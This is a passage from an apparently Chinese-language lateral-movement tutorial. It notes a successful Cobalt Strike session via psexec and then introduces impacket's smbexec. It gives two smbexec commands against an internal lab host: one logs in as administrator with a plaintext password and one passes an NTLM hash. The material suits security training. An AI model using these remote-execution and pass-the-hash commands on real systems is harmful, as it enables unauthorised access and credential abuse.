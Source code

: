 ### 4.3.4. 查看上线效果

可以看到成功上线，所以关于psexec，说真的，如果socks能够代理成功，那么本地执行挺好的，如果无法，那么就使用cs中自带的这个psexec来执行也不错。

![image-20230629122219291](assets/eoW4yvtESrdjX52.png)

# 5. smbexec

这个也是wmiexec-impacket套件中的工具，和psexec是差不多的用法，当然这里也是要开代理的。

```
python smbexec.py ./administrator:admin@123@192.168.20.30 
python smbexec.py -hashes :579da618cfbfa85247acf1f800a280a4 administrator@192.168.20.30  
```

![image-20230629123643634](assets/VIWFxjr6f1mBYdw.png)
